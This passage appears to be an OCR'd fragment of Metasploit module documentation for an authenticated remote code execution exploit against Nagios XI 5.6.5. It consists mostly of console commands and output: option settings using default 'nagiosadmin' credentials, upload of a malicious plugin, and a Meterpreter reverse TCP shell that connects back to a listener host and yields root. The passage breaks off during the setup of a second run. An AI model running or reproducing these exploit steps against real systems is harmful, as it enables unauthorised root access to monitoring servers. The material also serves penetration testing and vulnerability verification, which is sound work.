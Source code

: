 ```
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /nagiosxi/       yes       The base path to the Nagios XI application
   URIPATH                          no        The URI to use for this exploit (default is random)
   USERNAME        nagiosadmin      yes       Username to authenticate with
   VHOST                            no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.28     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux (x86)


msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.1.28:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.6.5
[+] The target appears to be vulnerable.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (809/809 bytes)
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting up to 300 seconds for the plugin to request the final payload...
[*] Sending stage (980808 bytes) to 192.168.1.14
[*] Meterpreter session 1 opened (192.168.1.28:4444 -> 192.168.1.14:54214) at 2021-04-01 10:59:52 -0400
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

meterpreter > getuid
Server username: root @ localhost.localdomain (uid=0, gid=0, euid=0, egid=0)
```

### Nagios XI 5.6.5 running on CentOS 7 - Linux (cmd) target
```
msf6 > use exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set rhosts 192.168.1.14
rhosts => 192.168.1.14
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set lhost 192.168.1.28
lhost => 192.168.1.28
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set password nagiosadmin
password => nagiosadmin
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set target 2
target => 2
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > show options

```